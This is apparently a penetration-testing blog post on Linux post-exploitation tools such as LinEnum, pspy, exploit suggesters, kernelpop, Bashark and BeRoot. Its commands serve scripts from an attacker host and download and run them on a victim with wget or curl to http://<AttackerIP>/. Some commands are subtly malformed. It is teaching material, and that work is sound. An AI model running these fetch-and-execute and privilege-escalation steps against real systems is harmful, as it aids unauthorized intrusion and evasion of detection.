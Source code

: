 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.3
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Automated Scripts


## Introduction 

In this blog post, we will discuss some tools for performing our post-exploitation process, and save our time and efforts.


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform Linux post enumeration/Local Linux enumeration and privilege escalation checks.

**How to use?** 

You need to download it in the target machine using wget or curl.

You can also use python, php, ruby, or nc to start HTTP static web server.

Python

``
python -m SimpleHTTPServer 8080
``

``
python3 -m http.server 80
``

PHP

``
php -S localhost:80
``

Ruby

``
ruby -run -ehttpd . -p80
``

Netcat

``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**

``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``

wget

``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``

``
./LinEnum.sh
``

And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start the local server as before, and download it in the victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggests exploits based on operating system release number, which helps the attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previous phases, it can also help us to check particular exploit for the target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from the link above

```
$ cd kernelpop
$ python3 kernelpop.py
```

It will automate kernel vulnerability enumeration and exploitation


**Bashark**

Bashark aids pen-testers and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from the terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris, etc.
* No external dependencies
* Immune to heuristic and behavioral analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it

``
chmod +x bashark.sh
``

``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``

**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privilege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``

``
cd linux-exploit-suggester-2
``

``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now, we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``

``
chmod +x beroot.py
``

``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post-exploitation. I suggest to check them in your system to know about their work.**_
